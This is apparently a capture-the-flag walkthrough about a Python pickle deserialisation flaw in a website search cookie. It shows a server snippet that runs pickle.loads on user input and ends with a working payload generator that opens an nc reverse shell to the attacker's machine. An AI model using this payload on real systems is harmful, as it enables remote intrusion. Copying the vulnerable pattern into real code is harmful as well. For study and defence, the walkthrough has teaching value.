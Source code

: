 <figure><img src="https://github.com/user-attachments/assets/1c50dc53-ac42-4c53-adbf-fc05b266a229" alt=""><figcaption></figcaption></figure>

Further enumeration of website revealed a potential vulnerability in it’s search feature request. When I tried to search some random words in that search box and intercepting that search query request via burp suite revealed that it’s sending some type of `search_cookie` also with the HTTP POST request.

<figure><img src="https://github.com/user-attachments/assets/482d350b-599c-4bea-aeba-91f57142a2ca" alt=""><figcaption></figcaption></figure>

That value looks like encoded in base64, decoded that value and found that it’s the same command which I entered in that search box, but it also contains some unknown patterns or let’s say junk with it, what’s that?

<figure><img src="https://github.com/user-attachments/assets/44f719dc-1719-43c4-b70c-0db44f63c423" alt=""><figcaption></figcaption></figure>

Searching about this on google, found an interesting [article by david hamann](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) on python pickle deserialisation vulnerability, where he explained this whole process and why its’ a potential vulnerability. I strongly suggest you to check that out first.

why this is dangerous?

So, basically `pickle.loads()` in Python will execute arbitrary code during deserialization if the payload contains a specially crafted object. If the server takes your Base64-encoded data and calls `pickle.loads()` directly then it’s **game over**. Like these:

```bash
data = base64.urlsafe_b64decode(request.form['search_cookie'])
deserialized = pickle.loads(data)
```

For confirmation, we can also check it with python on our machine like these:

<figure><img src="https://github.com/user-attachments/assets/f479c443-3c52-4be6-b1a8-b529ceb3df6e" alt=""><figcaption></figcaption></figure>

Confirmed.

***

### Initial Access

Prepared a python script to generate our payload:

```bash
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
